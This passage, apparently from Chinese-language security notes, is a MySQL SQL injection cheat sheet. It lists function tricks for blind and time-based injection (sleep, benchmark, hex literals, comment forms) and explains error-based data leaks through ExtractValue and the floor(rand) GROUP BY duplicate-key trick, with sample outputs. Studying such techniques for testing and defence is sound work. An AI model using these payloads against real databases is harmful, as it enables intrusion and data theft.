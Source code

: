 | 字符串Nth字符             | `select substr('abcd', 1, 1)`                                                                 |
| ------------------------- | --------------------------------------------------------------------------------------------- |
| 比特AND                   | `select 6 and 2 # 110 and 010 = 010`<br />`select 6 and 1 # 110 and 001 = 000`                |
| ASCII码转为字符           | `select char(65) # 'A'`                                                                       |
| 字符转为ASCII码           | `select ascii('A') # 65`                                                                      |
| 类型转换                  | `select cast('1' as unsigned integer) # 1`<br />`select cast(123 as char) # '123'`            |
| 字符串连接                | `select concat('a', char(65)) # 'aA'`                                                         |
| IF 子句                   | `select if(1=1, 'foo', sleep(5)) # if true return 'foo' else sleep 5s`                        |
| CASE 子句                 | `select case when(1=1) then 'foo' else sleep(5) end`                                          |
| 不使用引号                | `select 0x414243 # 'ABC'`                                                                     |
| 延时                      | `select benchmark(100000,md5('A')) # MD5('A') 100000 times`<br />`select sleep(5)`            |
| 注释符                    | `select 1 -- 需留空格`<br />`select 1 #不需要空格`<br />`select/*注释符与关键字间无需空格*/1` |
| 选择Nth行                 | `select * from users limit 0,1 # limit begin count`                                           |
| 将多行数据<br />聚合为1行 | `select group_concat(username) from users`                                                    |

### Error-based

- `ExtractValue(XML_text, xpath)`

  > 该函数是Mysql内部使用XPATH处理XML文本的函数，当输入的xpath无法解析时，函数报错

  因此可以将xpath替换为数据库敏感信息或子查询，错误信息将包含查询结果

```sql
  select ExtractValue(rand(), concat(0x3a,version()));
  ---> ERROR 1105 (HY000): XPATH syntax error: ':5.7.26-0ubuntu0.18.04.1'
  /* char(0x3a)=':'，确保':'后的信息可以完全显示 */
```

- GroupBy count(*)

  考虑查询

```sql
  SELECT COUNT(*),concat('hello',FLOOR(rand(0)*2))x 
  	FROM information_schema.TABLES 
  	GROUP BY x
```
> 当处理第一行时，得到结果 `1,hello0`
>
  > 处理第二行时，得到结果`1,hello1`
>
  > 当处理第三行时，`conat('hello', floor(rand(0)*2))` 的值只会为 `hello0` 或 `hello1`
>
  > 因此会报错出现重复的key `ERROR 1062 (23000): Duplicate entry 'hello1' for key 1`
>
  > 错误信息中包含了`hello1`，造成了信息泄露
>
  > **该利用源自MySql对`count` 和 `group by`的解析问题，在PostgreSQL相同查询则会正确返回结果。**
